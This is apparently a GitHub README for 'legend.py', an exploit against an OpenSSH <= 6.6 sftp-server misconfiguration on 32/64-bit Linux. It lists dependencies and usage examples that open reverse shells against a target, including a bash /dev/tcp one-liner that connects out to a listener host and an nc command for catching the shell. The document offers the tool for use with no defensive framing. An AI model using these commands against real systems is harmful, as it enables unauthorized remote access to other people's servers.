 # OpenSSH <= 6.6 SFTP (sftp-server) misconfiguration exploit

OpenSSH &lt;= 6.6 SFTP (sftp-server) misconfiguration exploit for 32/64 bits Linux



## Dependencies
pip3 install paramiko

pip3 install --upgrade git+https://github.com/arthaud/python3-pwntools.git



## Usage
Reverse shell with python
```sh
./legend.py -r $sftp_ip -p $sftp_port -u $sftp_user -P $sftp_pass -b "$your_ip $your_port"
```

Reverse shell with bash
```sh
./legend.py -r 1.1.1.1 -p 22 -u user -P pass -c "/bin/bash -pi >& /dev/tcp/2.2.2.2/443 0>&1"
```

Listening on $your_port
```
sudo nc -nlvp 443
```
